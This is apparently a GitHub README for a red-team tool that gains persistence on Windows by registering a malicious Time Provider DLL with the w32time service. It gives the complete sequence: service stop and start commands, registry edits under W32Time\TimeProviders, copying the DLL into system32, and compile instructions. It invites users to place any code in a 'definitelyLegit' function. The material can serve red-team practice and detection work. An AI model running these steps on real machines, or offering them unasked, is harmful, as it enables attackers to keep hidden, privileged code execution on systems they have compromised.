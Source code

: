 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

To read a more in-depth analysis of this technique read [this](https://otter.gitbook.io/red-teaming/articles/gaining-persistence-on-windows-with-time-providers) article ʕ •ᴥ•ʔ

## Usage
To use this technique, put whatever code you want to execute inside the `definitelyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```

## How to compile
Start the Developer Command Prompt for Visual Studio and compile with the following commands
```
mkdir build
cd build
cl /D_USRDLL /D_WINDLL ..\library.cpp ..\library.def /MT /link /DLL /OUT:w32TimePersistence.dll
```
